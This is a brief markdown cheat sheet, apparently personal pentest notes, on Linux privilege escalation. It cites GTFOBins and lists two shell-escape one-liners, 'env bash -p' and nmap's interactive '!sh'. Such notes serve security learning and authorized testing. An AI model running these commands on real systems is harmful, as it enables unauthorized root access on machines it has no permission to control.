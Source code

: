 # Linux PrivEsc
<br>

Url : https://gtfobins.github.io/
```
Déjà vu :

- /usr/bin/env bash -p

- nmap --interactive
  nmap> !sh (Cf. https://gtfobins.github.io/gtfobins/nmap/)
```
